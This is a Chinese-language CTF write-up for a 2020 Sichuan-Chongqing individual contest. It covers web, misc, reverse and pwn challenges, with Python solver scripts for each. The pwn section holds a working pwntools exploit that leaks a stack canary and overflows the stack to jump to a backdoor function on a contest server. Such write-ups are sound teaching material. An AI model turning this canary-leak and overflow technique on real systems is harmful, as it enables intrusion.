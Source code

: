 ﻿
---
title: 2020川渝个人赛-wp
categories: [CTF]
tags: [wp,pwn,re]

---
这个比赛简单，但是好久没有打ctf,感觉自己变废了<!--more-->
##  解题情况

![微信截图_20220914163354](微信截图_20220914163354.png)

## 解题过程

### Web

#### 1-1 目录扫描

按照经验，猜测robots.txt文件。读取后发现提示`'/Sec3et_in_h3r3/fl6g`

![0f71dfc995cba4c7e397f8863a1d069](川渝个人赛-wp.assets/0f71dfc995cba4c7e397f8863a1d069.jpg)

读取后发现flag。



### MISC

#### 2-3 0101

打开文本发现16进制数，用winhex写入，然后根据附件开头`50 4B 03 04 14 00 00 00 00 00` 判断文件为zip,且文件头损坏而打不开，因此修改`为50 4B 03 04 14 00 00 00 08 00`.在打开压缩包解压。发现一组黑白图片。编写脚本将黑色图片识别为1，将白色图片识别为0，将得到的二进制数转为字符从而得到flag

![image-20220914164829072](image-20220914164829072.png)



识别脚本如下：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   1.py
@Time    :   2022/09/14 14:29:19
@Author  :   lexsd6
'''
from PIL import Image

result= ""
for i in range(304):
    img = Image.open(f"{i}.png")
    im_RGB = img.convert("RGB") # 将图片转换为RGB模式
    r,g,b =im_RGB.getpixel((1,1)) #获得rgb值
    print(r,g,b)# 白色rgb值:(255,255,255)
    if r !=255: #255是白色
        result +="1"
    else:
        result +="0"

#将二进制转换为ascii码
for i in range(0,len(result),8):
    byte = result[i:i+8]
    print(chr(int(byte,2)),end="")
```





### REVERSE

#### 4-1 simple dispy 

跟着文档手搓python字节码。大致还原python 源代码为：

```python
arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643


flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")
```



从而逆向写出脚本：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   t.py
@Time    :   2022/09/14 13:26:54
@Author  :   lexsd6
'''


arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643

"""
flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")

"""

flag=""
for i in range(32):
 flag+=chr(int((arr[i]-k)/255))
 k=(k+arr[i])%65536
print(flag)

```



### PWN

#### 5-1 ez_canary

```
[*] '/home/lexs/Desktop/pwntest/2022/cy/ez_canary/ez_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

题目开了canary 和 nx，但是没开PIE.

但是通过逆向源代码和动态gdb，可以得知我们的输入的` Username`可以溢出到栈上，我们输入的password 可以覆盖 ` Username`的同时溢出到栈上。因此，我们合理布局code让` Username` 刚好把canary低位的'\x00'覆盖，从而泄露出canary。由于PIE未开，我们可以源文件后门，从而在Password 输入合理布局覆盖` Username`和canary，让程序流跳到我们后门上。（远程不知道为啥打不通，后赖用 ret 调节下栈 ）

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2022/09/14 10:21:45
@Author  :   lexsd6
'''

from pwn import * 
#from libcfind import *


""" 
0x000000000040142c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401430 : pop r14 ; pop r15 ; ret
0x0000000000401432 : pop r15 ; ret
0x000000000040142b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004011fd : pop rbp ; ret
0x0000000000401433 : pop rdi ; ret
0x0000000000401431 : pop rsi ; pop r15 ; ret
0x000000000040142d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
"""
local_mote=0
elf='./ez_canary'
e=ELF(elf)
context.arch=e.arch
context.log_level = 'debug'
ip_port=['43.143.139.234',50305]

debug=lambda gdb_cmd='': gdb.attach(p,gdb_cmd) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])


debug()
p.sendline('x'*0xa)
p.recvline()
cananry=(u64(p.recv(7)+'\x00'))*0x100
cd=(u64(p.recv(6)+'\x00'*2))*0x100
log.info(hex(cananry))
log.info(hex(cd))
#print(p.recvuntil('!Password:'))
sleep(0.1)
ret=0x000000000040101a
back=0x000000000401216
p.sendline('k'*(0x10+4)+p64(cananry)+p64(ret)*2+p64(back)*2)
p.interactive()
```

